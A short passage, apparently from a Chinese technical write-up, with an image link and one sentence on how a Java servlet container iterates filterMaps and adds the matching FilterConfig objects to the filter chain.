
最后遍历 filterMaps, 通过 filterMap.getFilterName() 从 context 中寻找对应的 FilterConfig 并且添加至 filterChain